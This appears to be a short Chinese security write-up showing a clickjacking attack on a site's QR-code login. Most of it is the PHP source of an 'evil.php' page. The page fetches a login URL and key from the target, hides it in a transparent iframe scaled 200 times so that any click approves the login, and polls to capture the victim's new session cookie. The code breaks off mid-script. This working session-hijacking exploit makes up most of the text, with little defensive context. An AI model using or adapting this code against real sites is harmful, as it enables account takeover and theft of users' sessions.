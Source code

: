很简单，老思路，透明 iframe ，放大 200 倍。

【服务端】evil.php 从二维码登录接口获得 登录url-A、key，用iframe包含 url-A 发给别人，制造点击劫持，诱导他点击。

【用户端】当用户打开 evil.php ，被诱导点击任意位置后

【服务端】即可通过 key 获得新会话cookie。

evil.php 代码：

```php+HTML
<?php
$key = $_REQUEST['key'];

if(!$key){
//当$key为空，系第一次调用，输出点击劫持html

//从二维码登录接口获取登录json
$ch = curl_init();
$url = 'https://www.xxx.com/getLoginUrl';
curl_setopt($ch, CURLOPT_URL, $url);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
curl_setopt($ch, CURLOPT_HTTPGET, 1);
$o = curl_exec($ch);
curl_close($ch);

//解析json，获得登录url、oauthKey
$json=json_decode($o,true);
$key =  $json['data']['oauthKey'];
$url = $json['data']['url'];

//输出点击劫持html
echo sprintf('<html>
    <head></head>
<body height=100%% width=100%%>
<div>
<iframe src="%s" height="100%%" width="100%%" frameborder="no" border="0" marginwidth="0" marginheight="0" scrolling="no" allowtransparency="yes" style="position:fixed;transform-origin: 0 0 0;z-index:999;transform: scale(200);left:calc(-500px * 200);top:calc(-600px * 200);"></iframe>
</div>
<script>
    function check(){document.body.appendChild(document.createElement("img")).src="evil.php?key=%s&r="+Math.random();}
    setInterval("check()",1000);
</script>
</body>
</html>',$url,$key);

}else{
//当$key不为空，系二次调用，记录成功登录的cookie

//判断oauthKey对应的url是否登录（被点击）
$ch = curl_init();
$url = 'https://www.xxx.com/getLoginInfo';
curl_setopt($ch, CURLOPT_URL, $url);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
curl_setopt($ch, CURLOPT_HTTPGET, 0);
curl_setopt($ch, CURLOPT_HEADER, true);
curl_setopt($ch, CURLOPT_POSTFIELDS, 'oauthKey='.$key);
$o = curl_exec($ch);
curl_close($ch);

//记录日志
$msg = '<time>'.date("Y-m-d H:i:s").'</time><key>'.$key.'</key><data>'.$o.'</data>'.PHP_EOL;

//通过返回包是否含有 Set-Cookie 判断是否登录
```